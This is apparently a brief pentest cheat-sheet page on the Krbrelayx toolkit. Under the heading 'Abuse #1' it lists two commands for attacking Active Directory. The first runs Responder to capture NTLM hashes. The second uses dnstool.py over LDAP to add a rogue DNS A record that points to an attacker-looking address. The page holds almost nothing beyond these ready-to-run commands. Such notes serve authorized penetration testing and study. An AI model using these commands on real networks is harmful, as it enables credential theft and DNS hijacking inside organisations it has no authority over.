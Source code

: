 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Krbrelayx", "dnstools", "active driectory", "ad", "Windows", "dns"]
---
```


---
### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Capture NTLM hash
sudo responder -I tun0
```

```bash
python3 dnstool.py -u <DOMAIN>\\<USER> -p <PASSWORD> --action add --record test --data 10.10.14.10 --type A 10.10.11.10
```

</div>

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}

<br>